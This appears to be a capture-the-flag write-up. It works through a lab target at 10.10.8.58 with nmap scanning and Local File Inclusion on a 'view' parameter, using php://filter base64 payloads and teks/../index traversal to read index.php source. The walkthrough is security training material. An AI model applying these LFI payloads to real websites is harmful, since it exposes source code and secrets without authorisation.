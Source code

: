 [< Back](../../README.md)

Found open ports with `nmap`:
```
Discovered open port 22/tcp on 10.10.8.58
Discovered open port 80/tcp on 10.10.8.58
```

Taking a look at `:80`:
<p><img src="src/flag1/main_site.jpg" width="750"></p>

Clicking on the TEK button, shows an image and adds a query parameter to the url:
<p><img src="src/flag1/main_site_tek.jpg" width="750"></p>

Let's try to do some LFI (Local File Inclusion) in the URL, for example let's first just try to break it:
```
http://[IP]/?view=AAAA
```
<p><img src="src/flag1/break_attempt_1.jpg" width="750"></p>

Okay so it seems like it is expecting the string "tek" (or "pedago" for the other button).

Let's try once again a random value but this time including the word "tek":
```
http://[IP]/?view=AAAAtekAAAA
```
<p><img src="src/flag1/break_attempt_2.jpg" width="750"></p>

Nice! It worked, this proves we can do LFI.

Let's now try to get to encode in base64 "tek" and see if it spits out some code.

To do this we will use a php filter:
```
http://[IP]/?view=php://filter/read=convert.base64-encode/resource=tek
```
<p><img src="src/flag1/lfi_attempt_1.jpg" width="750"></p>

Decoding the base64 output gives us:
```html
<img src="teks/<?php echo rand(1, 10); ?>.jpg" />
```

Very interesting, there is a `teks/` folder, this could be very useful because I would like to print out the contents of `index.php`, the restriction over the "tek" word wouldn't allow that.

Let's try to get the contents of `index.php` by doing a back and fourth into `teks/`:
```
view-source:http://[IP]/
  ?view=
    php://filter/read=convert.base64-encode/resource=teks/../index
```
<p><img src="src/flag1/lfi_attempt_2.jpg" width="750"></p>

We got a match! (I also switched to `view-source` mode.)
